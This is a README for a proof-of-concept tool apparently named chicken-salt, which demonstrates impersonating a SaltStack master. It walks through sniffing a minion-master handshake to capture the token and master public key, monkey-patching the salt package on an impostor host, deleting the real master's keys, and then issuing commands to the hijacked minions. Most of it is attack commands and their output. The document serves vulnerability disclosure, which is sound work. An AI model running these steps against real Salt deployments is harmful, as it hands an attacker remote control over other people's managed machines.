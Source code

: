 ## Introduction

This is a tool created to demonstrate a security vulnerability in salt stack's
master verification system. It allows anyone to impersonate a master host
by merely observing one handshake between a minion and a legitimate master.

## Prerequisites

The script that listens for handshake traffic requires pycap and dpkt.
These can be installed like so (on an Ubuntu Precise system):

```sh
sudo apt-get install python-dpkt python-pypcap
```

These instructions are going to assume you already have a working salt-{master,minion}.
If you don't, you can set them up like this (again, Ubuntu Precise):

```sh
sudo apt-get install python-software-properties
sudo add-apt-repository ppa:saltstack/salt
sudo apt-get update
sudo apt-get install salt-master salt-minion
sudo sed -i 's/#master: salt/master: 127.0.0.1/g' /etc/salt/minion
sudo restart salt-minion
sudo salt-key -A
```

Finally, you'll need to clone this repository somewhere.

```sh
git clone https://github.com/dzderic/chicken-salt
```

## The attack

I'm going to be running this attack against a master running on my local machine.
You'll probably want to insert the IP of your master instead of `127.0.0.1`.

The first thing we need to do is listen to a handshake between a minion and a master.
The `listener.py` script does this for us and dumps out the token and public key of
the master we'll be impersonating. You can run it like so:

```sh
sudo ./listener.py --interface lo --address 127.0.0.1
```

Now you'll have to wait for a handshake to occur. If you have control of a minion,
you can force a handshake by restarting the service (`sudo restart salt-minion`).
You should see something like this:

```
Listening for salt packets going to 127.0.0.1 on port 4506
Packet received
Packet received
Packet received
Packet received
Found a token!
Writing token to '/etc/salt/pki/token'
Writing master pub key to '/etc/salt/pki/fake_master.pub'
```

The only thing left to do is impersonate the master. `salt_master_monkey.py` takes
care of serving the token we sniffed earlier and the previous master's public key.
On the imposter master:

```sh
sudo ln -s salt_master_monkey.py /usr/lib/pymodules/python2.7/salt/
sudo sh -c 'echo import salt_master_monkey >> /usr/lib/pymodules/python2.7/salt/__init__.py'
```

You'll also want to make sure that the token and public key are in `/etc/salt/pki/`
(which is where they're placed by `listener.py`).

NOTE: If you're running this on a test master, you probably want to remove the
master's actual keys, or this wouldn't be much of an attack now would it?

```sh
sudo stop salt-master
sudo rm /etc/salt/pki/master.pem /etc/salt/pki/master.pub
sudo start salt-master
```

Congratulations, you now have control over many minions to do your bidding.

```console
sudo restart salt-minion   # to force a handshake with the new master
sudo salt \* test.ping
# ubuntu: True
```
